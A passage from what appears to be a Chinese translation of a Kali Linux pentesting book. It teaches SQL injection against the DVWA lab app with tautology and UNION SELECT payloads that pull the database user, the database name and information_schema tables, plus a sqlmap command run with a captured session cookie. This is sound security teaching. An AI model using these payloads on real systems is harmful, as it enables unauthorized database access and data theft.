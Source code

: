 我们假设表名为`users_table`，具有相关的列名。我们所做的是将前面的语句更改为以下内容：

```
'SELECT user_id, first_name, last_name FROM users WHERE user_id = %' OR '1'='1';
```

然后点击提交。我们的结果应该是表中的所有数据，如下所示：

![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/kali18-asr-sec-pentest/img/207d7906-063a-4a70-a8b1-b9d6337e13f8.jpg)

`%`表示 mod 并将返回`false`。但我们添加了 OR 运算符。因此，由于查询的第一部分将返回`false`（因为`%`），OR 将强制其执行第二部分，`'1'='1`，这是`true`。因此，因为查询运行的一切，对于表中的每条记录来说，它总是`true`，SQL 打印出表中的所有记录。

以下是您可以尝试的其他查询：

+   获取用于在 Web 应用程序和数据库之间连接的帐户的用户名：`%' or 0=0 union select null, user() #`

+   从中获取我们一直在提取数据的当前数据库：`%' or 0=0 union select null, database() #`

+   显示信息模式表：`information_schema`表是一个存储有关所有其他数据库的信息的数据库；`%' and 1=0 union select null, table_name from information_schema.tables #`

+   显示数据库表：使用上一个查询的数据，我们可以找出表是什么：`%' and 1=0 union select null, table_name from information_schema.tables where table_name like 'user%'#`

# 自动化 SQL 注入

现在我们了解了 SQL 注入的外观，让我们看一些可以自动化此过程的工具。

# sqlmap

sqlmap 是 Kali 内置的工具，可用于识别和利用 SQLi 漏洞。在这个例子中，我们将使用 Burp Suite 收集一些数据，然后将其提供给`sqlmap`进行工作。

启动 Burp Suite 并设置浏览器通过其代理路由所有流量。确保拦截是打开的。转到 DVWA 应用程序上的 SQL 注入页面并输入用户 ID；在这种情况下，我将输入`1`。

Burp 会捕获请求。将其转发直到请求完成。您应该在网页上看到您的结果。转到目标选项卡，选择 DVWA IP（在我的情况下是`192.168.0.19`），并使用箭头向下浏览结果，按照 URL 路径，`http://192.168.0.19/dvwa/vulnerabilities/sqli/`（您可以在浏览器的地址栏中确认）：

![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/kali18-asr-sec-pentest/img/0ec95d23-9cdb-47f4-8baa-e4461a05bc4f.jpg)

选择状态为`200`（HTML 代码为`200`）的请求：

![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/kali18-asr-sec-pentest/img/762ccbec-2e12-4090-ab03-6e4ac68f9677.jpg)

在请求选项卡中，我们得到了我们需要的信息-Web 应用程序发送的实际请求（引用者），它在第一行中：`/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit`，以及我们得到的 PHP 会话 ID 或 Cookie：

![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/kali18-asr-sec-pentest/img/924facf8-48fe-429e-bb1e-7b6d6412c9d4.jpg)

有了这些数据，让我们打开终端并输入以下内容来获取数据库用户，就像我们用手动步骤一样：

```
sqlmap -u "http://192.168.0.19/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="PHPSESSID=fb89mhevcus9oq1a1f2s6q3ss4; security=low" -b --current-db --current-user
```

这是一行没有断点的`--cookie`：
